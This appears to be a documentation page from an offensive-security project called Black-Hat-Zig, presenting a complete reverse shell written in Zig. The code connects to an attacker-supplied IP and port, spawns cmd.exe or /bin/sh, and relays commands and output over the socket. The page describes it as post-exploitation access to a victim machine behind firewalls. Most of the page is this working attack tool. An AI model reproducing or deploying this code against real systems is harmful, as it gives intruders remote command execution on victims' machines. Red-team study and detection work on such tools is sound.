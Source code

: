 # Reverse Shell Using Standard Library

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Reverse-Shell/std_reverse_shell)

## Explanation

This example implements a classic reverse shell using only Zig's standard
library. It connects to a remote host and spawns a command interpreter whose
input and output are tunneled through the TCP socket. Once the connection is
established, the attacker can issue commands and receive their results as if
they were running directly on the victim machine. Reverse shells are frequently
used in post-exploitation to gain interactive access behind firewalls or NAT
devices.

## Code Walkthrough

```zig title="main.zig"
const std = @import("std");
const builtin = @import("builtin");

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const args = try std.process.argsAlloc(std.heap.page_allocator);
    defer std.process.argsFree(std.heap.page_allocator, args);
    if (args.len != 3) {
        std.debug.print("Usage: {s} <IP> <PORT>\n", .{args[0]});
        return;
    }

    const target_hostname = args[1];
    const target_port_str = args[2];

    const target_port = std.fmt.parseInt(u16, target_port_str, 10) catch |err| {
        std.debug.print("Error parsing port '{s}': {}\n", .{ target_port_str, err });
        return;
    };

    var shell: []const []const u8 = undefined;

    if (builtin.os.tag == .windows) {
        shell = &[_][]const u8{"cmd.exe"};
        std.debug.print("[+] Using cmd.exe as the shell\n", .{});
    } else if ((builtin.os.tag == .linux) or (builtin.os.tag == .macos)) {
        shell = &[_][]const u8{"/bin/sh"};
        std.debug.print("[+] Using /bin/sh as the shell\n", .{});
    } else {
        std.debug.print("[-] Cannot detect target OS", .{});
        return;
    }

    std.debug.print("[+] Connecting to {s}:{d}\n", .{ target_hostname, target_port });

    const address_list = try std.net.getAddressList(allocator, target_hostname, target_port);
    defer address_list.deinit();
    const stream = std.net.tcpConnectToAddress(address_list.addrs[0]) catch {
        std.debug.print("[-] Host seems down. Cannot connect to the host.\n", .{});
        return;
    };
    defer stream.close();

    var process = std.process.Child.init(shell, allocator);
    process.stdin_behavior = .Pipe;
    process.stdout_behavior = .Pipe;
    process.stderr_behavior = .Pipe;
    try process.spawn();
    defer _ = process.kill() catch {};

    var buffer: [4096]u8 = undefined;

    while (true) {
        // Read command from socket
        const bytes_read = stream.read(&buffer) catch break;
        if (bytes_read == 0) break;

        // Send command to process
        _ = process.stdin.?.write(buffer[0..bytes_read]) catch break;

        // Wait for execution
        std.time.sleep(300 * std.time.ns_per_ms);

        // Read output once with reasonable timeout
        if (process.stdout.?.read(&buffer)) |output_len| {
            if (output_len > 0) {
                _ = stream.write(buffer[0..output_len]) catch break;
            }
        } else |_| {
            // If stdout fails, try stderr
            if (process.stderr.?.read(&buffer)) |error_len| {
                if (error_len > 0) {
                    _ = stream.write(buffer[0..error_len]) catch break;
                }
            } else |_| {}
        }
    }
}
```
